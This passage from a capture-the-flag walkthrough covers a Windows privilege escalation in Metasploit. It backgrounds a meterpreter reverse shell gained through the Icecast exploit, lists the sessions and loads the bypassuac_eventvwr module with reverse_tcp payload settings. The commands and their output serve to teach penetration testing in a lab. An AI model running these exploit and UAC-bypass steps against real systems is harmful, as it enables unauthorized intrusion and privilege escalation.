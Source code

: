 Nota> era el segundo , no el primero, al menos ahora que lo hago


### Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.

```
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/icecast_header) > sessions 

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.2.111.254:4444 -> 10.10.8.156:492
                                                             42 (10.10.8.156)

msf6 exploit(windows/http/icecast_header) > 

```

### Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`

```
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.197.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

```
